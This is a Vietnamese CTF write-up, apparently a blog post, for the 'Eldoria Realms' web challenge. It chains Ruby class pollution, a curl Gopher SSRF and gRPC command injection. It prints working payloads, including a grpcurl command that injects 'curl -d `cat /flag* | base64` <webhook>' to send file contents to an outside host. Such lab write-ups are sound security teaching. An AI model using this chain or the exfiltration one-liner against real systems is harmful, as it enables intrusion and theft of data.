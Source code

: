 ```yaml
---
layout: single
title: "Eldoria Realms"
date: 2025-03-28 16:31:06 +0700
tags: [CTF, Web, SSRF, gRPC, Command-Injection]
---
```


# 🎮 Eldoria Realms - Web Challenge

> Author: tan3ora

- **Tên:** Eldoria Realms
- **Description:** A portal that allows players of Eldoria to transport between realms, take on quests, and manage their stats. See if it's possible to break out of the realm to gather more info on Malakar's spells inner workings.
- **Có source code**

---

## 🔍 Phân tích

Trang web có 2 service:

1. Website viết bằng **Ruby**
2. [gRPC Server](https://viblo.asia/p/co-ban-ve-grpc-va-cach-protobuf-ma-hoa-giu-lieu-trong-grpc-yZjJYzBDLOE)

---

### 🚨 Ruby Class Pollution qua merge đệ quy

Khi phân tích source code, ta phát hiện đoạn merge dữ liệu user như sau:

```ruby
class Adventurer
  @@realm_url = "http://eldoria-realm.htb"
  attr_accessor :name, :age, :attributes

  def self.realm_url
    @@realm_url
  end

  def initialize(name:, age:, attributes:)
    @name = name
    @age = age
    @attributes = attributes
  end

  def merge_with(additional)
    recursive_merge(self, additional)
  end

  private

  def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

**Vấn đề:**  
Hàm `recursive_merge` sẽ tự tạo biến instance mới nếu key chưa tồn tại → mở ra khả năng **class pollution**.

**Tại endpoint `/merge-fates`:**

```ruby
post "/merge-fates" do
  content_type :json
  json_input = JSON.parse(request.body.read)
  random_attributes = { ... }

  $player = Player.new(
    name: "Valiant Hero",
    age: 21,
    attributes: random_attributes
  )

  $player.merge_with(json_input)
  { 
    status: "Fates merged", 
    player: { name: $player.name, age: $player.age, attributes: $player.attributes } 
  }.to_json
end
```

→ Ta có thể chỉnh sửa attribute của **superclass**:

**Payload:**
```json
{
  "class": {
    "superclass": {
      "realm_url": "attacker_url"
    }
  }
}
```

**Kết quả:** Mỗi lần truy cập `/connect-realm` → server sẽ gọi `curl attacker_url`.

---

## 🚀 Gopher SSRF → Command Injection gRPC

Trong server gRPC có function:

```go
func healthCheck(ip string, port string) error {
  cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
  output, err := cmd.CombinedOutput()
  ...
}
```

Kết hợp với Dockerfile:
```
RUN wget https://curl.haxx.se/download/curl-7.70.0.tar.gz ...
```

→ Curl version dễ bị **SSRF Gopher → Raw TCP Injection**

---

## 🧨 Khai thác

**Flow:**  
`Ruby Class Pollution → Curl Gopher SSRF → gRPC Protocol → Command Injection`

### 1. Craft request gRPC

Dùng [grpcurl](https://github.com/fullstorydev/grpcurl):

```bash
grpcurl   -plaintext   -proto ./challenge/live_data.proto   -d '{"ip":";","port":"curl -d `cat /flag* | base64` <link_webhook> "}'   localhost:50051   live.LiveDataService.CheckHealth
```

**Dùng Wireshark → Follow TCP Stream để lấy raw request**

![Follow TCP Stream](http://note.bksec.vn/pad/uploads/12087ecd-b40d-45f7-90f4-64344c2e15fc.png)

---

### 2. Chuyển thành Gopher Payload

Export TCP stream → Python encode:

```python
import urllib.parse

with open("dump_raw1", "rb") as f:
    raw_data = f.read()

encoded_data = urllib.parse.quote_from_bytes(raw_data)
gopher_url = f"gopher://127.0.0.1/_{encoded_data}"

print("Gopher URL:")
print(gopher_url)
```

---

### 3. Thay đổi realm_url

Gửi request đến `/merge-fates`:

```json
{
  "class": {
    "superclass": {
      "realm_url": "gopher://127.0.0.1/_<payload>"
    }
  }
}
```

**Request thành công:**

![Pollution Payload](http://note.bksec.vn/pad/uploads/3d276f00-5528-4a3b-bb5c-377a9904d5f2.png)

---

### 4. Trigger SSRF → Command Injection

Gửi request tới `/connect-realm`:

![Trigger](http://note.bksec.vn/pad/uploads/affde1b9-2f15-4850-b871-f1b481311395.png)

---

### 5. Lấy flag

Payload thực thi lệnh:
```bash
curl -d `cat /flag* | base64` <webhook>
```

Webhook nhận về flag:

![Flag](http://note.bksec.vn/pad/uploads/cd35619e-01c9-4af1-8bde-1089b54ae0f3.png)

---

